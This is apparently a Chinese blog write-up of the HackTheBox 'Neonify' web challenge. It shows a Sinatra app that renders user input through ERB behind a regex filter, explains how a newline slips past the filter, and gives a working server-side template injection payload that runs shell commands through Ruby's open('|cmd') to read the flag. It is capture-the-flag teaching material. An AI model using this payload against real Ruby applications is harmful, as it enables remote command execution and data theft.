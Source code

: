 ```yaml
---
title:  HTB-Neonify-web-challenge-wp
categories: [CTF,HTB]
tags: [web,ruby]
---
```

第一次遇到ruby后端,感觉ruby语法也有点意思<!--more-->
![image-20220401113528771](image-20220401113528771.png)

## 漏洞查询

分析题目源码：

```ruby
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

发现题目是ruby语言写的后端。进行代码审计发现` if params[:neon] =~ /^[0-9a-z ]+$/i` 发现存在换行绕过。

![image-20220326111436835](image-20220326111436835.png)

于是`neon=1111%0axxxxj!<>`绕过正则限制.

![image-20220326111830872](image-20220326111830872.png)

然后，一下找不到什么利用点了，但是百度下ERB发现是Embedded RuBy的简称，意思是嵌入式的Ruby，是一种文本模板技术.语法为：

```
<% %>
在括号内执行ruby代码。

<%= %>
在ERB文件中打印一些东西。

<% -%>
避免在表达式后中断行。

<%# %>
括号内的注释；未发送到客户端(与HTML注释相反)。
```

其中提到一个例子：

```ruby
sqlTemplate = ERB.new %q{  
<%for organization in domains.keys%>  
    insert into org_domain(Domain, organization) values('<%=domains[organization]%>','<%=organization%>');  
<%end%>  
} 
```

因此猜测在` ERB.new(params[:neon]).result(binding)`处用ssti.

## 漏洞利用

我们可以通过`<% %>`来执行代码，但是我们看不到回显。下面例子可以看到程序因为找不到xxx而报错。说明我们的代码被执行了。

![image-20220326112945963](image-20220326112945963.png)

但是传统的system,exec都无法直接回显。都要通过vps反弹shell。

通过收集资料发现：

```
file = '|whoami'
puts open(file).read()  # ubuntu
puts open(file).gets    # ubuntu
```

open可以回显出命令执行结果。

因此我们构造payload即可得到flag

`neon=1111%0axxxxj!</h1><%25=open('|cat f*').read()%25><h1>`



![image-20220326120227996](image-20220326120227996.png)



## 参考文献

https://www.cnblogs.com/cuimiemie/p/6442695.html

https://droidyue.com/blog/2014/11/18/six-ways-to-run-shell-in-ruby/